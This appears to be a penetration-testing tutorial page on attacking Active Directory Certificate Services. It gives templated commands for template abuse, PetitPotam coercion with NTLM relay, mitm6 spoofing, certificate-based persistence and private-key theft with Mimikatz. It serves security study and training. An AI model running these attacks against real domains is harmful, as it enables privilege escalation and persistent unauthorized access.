 ```yaml
---
layout: blank
pagetitle: Attacking Active Directory Certificate Services
---
```



## What is ADCS

**Overview of ADCS**
- ADCS implements Public Key Infrastructure (PKI) in Windows domains, providing certificates for secure communication, user authentication, and more.
- It integrates tightly with Active Directory, enabling automated certificate issuance and renewal.
- Common uses include:
    - Smart card logon
    - Encrypting File System (EFS)
    - Wi-Fi and VPN authentication

**Key Components**
- Certificate Authority (CA): Issues, revokes, and manages certificates.
- Enrollment Services: Allows users and computers to request certificates via interfaces like the Certificate Enrollment Web Service (CES).
- Certificate Templates: Define certificate properties, validity periods, and permissions.

### Enumeration
The first step in attacking ADCS is understanding the configuration of the CA, its templates, and associated permissions. Enumerating these components reveals potential misconfigurations that can be exploited.

- **Certipy** - Python tool for ADCS enumeration:
```
certipy find -u {username} -p {password} -dc-ip {dc_IP} -text -stdout
```
    - Look for `[!] Vulnerabilities` in templates and certificates
- **ldapsearch** - Query AD objects for ADCS-related information:
```
ldapsearch -x -h {DC_IP} -b "CN=Configuration,DC=domain,DC=com" "(objectClass=pKIEnrollmentService)"
```
- **Certutil** - View available certificate templates:
```
certutil -template
```

### Common Vulnerabilities
ADCS often suffers from misconfigurations or insecure defaults that attackers can exploit. Here are the primary vulnerabilities:

- **Misconfigured Certificate Templates**:
    - Templates allowing _Authenticated Users_ to enroll enable low-privilege users to request certificates for accounts with higher privileges.
    - Certificate request agent rights can be abused to impersonate other users.
- **NTLM Relay Attacks**:
    - ADCS web enrollment services often lack Extended Protection for Authentication (EPA), making them vulnerable to NTLM relaying.
- **Vulnerable DACLs**:
    - Improper permissions on CA objects can allow attackers to modify or issue unauthorized certificates.
Insecure configurations allow attackers to escalate privileges by obtaining certificates for sensitive accounts or performing man-in-the-middle attacks.

### Attack Techniques

**Exploitation of Misconfigured Certificate Templates**
Certificate templates define which users can request specific types of certificates. When a template is misconfigured to allow enrollment by "Authenticated Users," any domain user can request a certificate that provides elevated privileges. This is a common misstep in ADCS deployments.

- Find templates and identify misconfigurations:
```
certipy find -u {username} -p {password} -d {domain}
```
- Request a certificate from a vulnerable template:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name}
```
- Authenticate using the obtained certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert} /password:{password}
```

**NTLM Relay with PetitPotam**
The PetitPotam attack coerces a target server to authenticate to an attacker-controlled machine via NTLM. When relayed to the ADCS web enrollment service, this can be used to request certificates that allow domain escalation.
- Trigger authentication via PetitPotam:
```
PetitPotam.py {target_DC_IP} {attacker_IP}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -t http://{ADCS_IP}/certsrv/certfnsh.asp
```
- Extract and use the resulting certificate to impersonate privileged users.

**Machine-in-the-Middle with mitm6**
ADCS systems are often vulnerable to IPv6 spoofing attacks. Tools like mitm6 allow attackers to intercept NTLM traffic, relaying it to request certificates for privilege escalation.
- Launch IPv6 spoofing:
```
mitm6 -d {domain}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -6 -t ldap://{DC_IP} --adcs
```

**Persistence with Certificates**

Certificates are an excellent mechanism for persistence because they allow authentication without passwords. By requesting a long-lived certificate, attackers can maintain access even if the compromised user’s password is changed.

- Request a certificate with extended validity:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name} -validity {days}
```
- Export the certificate for reuse:
```
certutil -exportPFX -p {password} -cert {cert_name} {output_path}
```
- Authenticate using the certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert}
```

**Certificate Theft**
Attackers can extract private keys and certificates from systems to impersonate users or maintain persistence.
- Dump private keys using Mimikatz:
```
crypto::capi
```
- Export certificates with private keys:
```
certutil -exportPFX -user -p {password} my {output_file}
```

Stolen certificates can be used in attacks such as pass-the-certificate to impersonate users or maintain access to systems.